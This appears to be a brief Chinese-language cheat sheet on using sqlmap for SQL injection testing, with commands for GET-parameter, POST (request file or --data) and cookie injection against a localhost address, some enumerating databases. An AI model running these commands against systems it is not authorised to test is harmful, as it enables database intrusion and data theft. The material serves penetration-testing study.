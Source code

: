 1.get注入

```javascript
sqlmap -u"http://127.0.0.1/index.php?id=1" --dbs
```

sqlmap会自动对id参数进行注入测试。



2.post注入

```javascript
sqlmap -r"bp.txt"
```

使用当前目录下的bp.txt进行sql注入测试。



post注入也可以，使用--data参数

```javascript
sqlmap -u"http://127.0.0.1/index.php" --data="username=admin"
```



3.cookie注入

```javascript
sqlmap -u"http://127.0.0.1/index.php?id=1" --cookie="id=1" --dbs
```

对该地址的cookie注入测试。

